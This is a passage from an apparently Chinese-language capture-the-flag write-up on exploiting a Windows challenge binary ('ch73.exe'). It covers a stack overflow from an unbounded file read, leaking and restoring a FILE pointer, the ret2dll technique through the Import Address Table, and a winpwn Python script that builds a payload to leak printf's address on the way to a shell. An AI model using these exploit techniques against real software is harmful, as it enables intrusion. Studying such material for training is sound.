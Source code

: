 ```
  return fclose(v11);
}
```

首先会输出文件名，接着会把文件大小给输出，然后打开文件通过read将文件里面的内容输入到`DstBuf`这个变量中，值得注意的是并没有对大小进行限制，导致栈溢出的发生，但是还有一个点是需要注意的，fclose(v11)这个v11直接栈溢出的话会被覆盖掉最后会导致失败，所以需要把v11先给泄露出来然后栈溢出的时候把v11还给覆盖成正常的pointer即可

所以先随便写一个文件然后运行一下输出一下`File pointer`

```
PS ch73> echo a > p1
PS ch73> .\ch73.exe p1
File name: p1
File size: 8
Alphanumerical chars: 1
Words: 1
Lines: 0
File pointer: 75E2D660
```

拿到`pointer`之后就可以构造第二个payload了，因为这个程序没有system函数，但是我们需要getshell所以不得不寻找system，在glibc pwn中，可以使用ret2libc的攻击手法，在win中通过上面的介绍`msvcrt.dll`里提供了具体的实现，所以也是有ret2dll的攻击方法，原理和ret2libc差不多

在win中并没有plt和got表这个概念，但是DLL也用到了类似GOT的方法，称为**导入地址数组**（**Import Address Table，IAT**），IAT和GOT非常类似，IAT中表项对应本模块中用到的外部符号的真实地址，初始为空（也不算为空），在装载后由动态链接器更新为真实地址。在ida中可以看到位于.idata段中

![img](https://xzfile.aliyuncs.com/media/upload/picture/20221126193221-fdd106b4-6d7d-1.png)

plt其实可以看成下图的地址

![img](https://xzfile.aliyuncs.com/media/upload/picture/20221126193235-05fcd91c-6d7e-1.png)

接下来构造第二个payload，也就是输出printf的真实地址，exp如下

```
from winpwn import *

context.log_level = 'debug'

printf_plt = 0x402974
printf_got = 0x406200

p1 = p32(0x75E2D660) * 2053
p1 += p32(0xdeadbeef)
p1 += p32(printf_plt)
p1 += p32(0x004016E3)
p1 += p32(printf_got)

p1 = [ord(i) for i in p1]

with open('./p2', 'wb+') as f:
    f.write(bytes(p1))

f.close()
```

